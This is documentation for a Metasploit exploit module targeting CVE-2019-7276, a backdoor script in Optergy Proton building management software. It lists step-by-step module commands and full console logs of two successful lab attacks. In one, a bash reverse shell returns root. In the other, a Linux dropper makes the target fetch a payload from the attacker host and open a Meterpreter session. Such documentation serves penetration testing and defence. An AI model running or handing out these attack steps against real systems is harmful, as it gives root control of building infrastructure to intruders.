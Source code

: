 ## Vulnerable Application

This module exploits an undocumented backdoor vulnerability (CVE-2019-7276) in the Optergy Proton and Enterprise
Building Management System (BMS) applications. Versions `2.0.3a` and below are vulnerable.
Attackers can exploit this issue by directly navigating to an undocumented backdoor script called `Console.jsp`
in the tools directory and gain full system access.
Successful exploitation results in `root` command execution using `sudo` as user `optergy`.

Please check out this [AttackerKB Article](https://attackerkb.com/topics/QrYFIjnd3J/cve-2019-7276) for more info.

Installing a vulnerable test bed requires a Linux or Windows machine with the vulnerable software loaded.
Follow instructions [Optergy OVA Download](https://github.com/h00die-gr3y/Metasploit/tree/main/images),
to download an OVA image with a vulnerable Optergy Proton application (v2.0.3a) installed.

This module has been tested against a Optergy Proton installation with the specifications listed below:

* Optergy Proton
* Version: `2.0.3a`
* Linux OS: Debian 7.11

## Verification Steps

1. `use exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command, 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No additional options.

## Scenarios

### Optergy Proton 2.0.3a on Debian Linux 7.11 - bash reverse shell
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > check
[+] 192.168.201.31:80 - The target is vulnerable.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.201.10:4444 -> 192.168.201.31:43322) at 2023-03-22 12:45:22 +0000

whoami
root
uname -a
Linux debian 3.2.0-4-amd64 #1 SMP Debian 3.2.96-2 x86_64 GNU/Linux
exit
[*] 192.168.201.31 - Command shell session 1 closed.
```
### Optergy Proton 2.0.3a on Debian Linux 7.11 - Linux Dropper Meterpreter session
```
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > set target 1
target => 1
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > options

Module options (exploit/linux/http/optergy_bms_backdoor_rce_cve_2019_7276):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.201.31   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploi
                                       t/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an addres
                                       s on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.201.10   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:8080).
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/optergy_bms_backdoor_rce_cve_2019_7276) > exploit

[*] Started reverse TCP handler on 192.168.201.10:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.10:8080/JKGheHgpr9TQf
[*] Client 192.168.201.31 (Wget/1.13.4 (linux-gnu)) requested /JKGheHgpr9TQf
[*] Sending payload to 192.168.201.31 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (3045348 bytes) to 192.168.201.31
[*] Meterpreter session 2 opened (192.168.201.10:4444 -> 192.168.201.31:43377) at 2023-03-22 12:46:57 +0000
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.31
OS           : Debian 7.11 (Linux 3.2.0-4-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

## Limitations
No limitations identified.
